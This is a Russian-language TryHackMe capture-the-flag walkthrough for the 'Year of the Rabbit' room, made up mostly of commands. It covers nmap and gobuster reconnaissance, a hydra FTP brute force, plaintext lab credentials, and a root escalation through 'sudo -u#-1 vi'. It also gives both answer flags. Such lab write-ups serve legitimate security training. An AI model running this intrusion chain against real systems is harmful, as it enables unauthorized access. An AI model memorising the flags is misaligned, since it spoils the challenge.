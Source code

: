 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Year of the Rabbit](https://tryhackme.com/r/room/yearoftherabbit) 

Всего 1 заданиe:
## Задание 1
Давайте приятно и спокойно начнем Новый год!
Сможете ли вы взломать коробку Года Кролика, не провалившись в яму?

(Пожалуйста, убедитесь, что громкость включена!)

### Ответьте на вопросы ниже
Что такое флаг пользователя?
```commandline
nmap -sC -sV 10.10.156.211
gobuster dir -u http://10.10.156.211 -w /usr/share/wordlists/dirb/common.txt
# /assets
# style.css
# /sup3r_s3cr3t_fl4g.php
# /WExYY2Cv-qU
strings Hot_Babe.png > pass.txt
hydra -l ftpuser -P pass.txt ftp://10.10.156.211

ftp 10.10.156.211
# password : 5iez1wGXKfPKQ
ls
get Eli’s_Creds.txt
cat Eli\’s_Creds.txt

# https://www.dcode.fr/brainfuck-language 

ssh eli@10.10.156.211
DSpDiMlwAEwid
locate s3cr3t
cat /usr/games/s3cr3t/.th1s_m3ss4g3_15_f0r_gw3nd0l1n3_0nly!
gwendoline:MniVCQVhQHUNI
su gwendoline
cat user.txt
```
```commandline
THM{1107174691af9ff3681d2b5bdb5740b1589bae53}
```
 
Что такое корневой флаг?
```commandline
sudo -l
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
# !/bin/sh
cd /root
ls
cat root.txt
```
```commandline
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```
[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)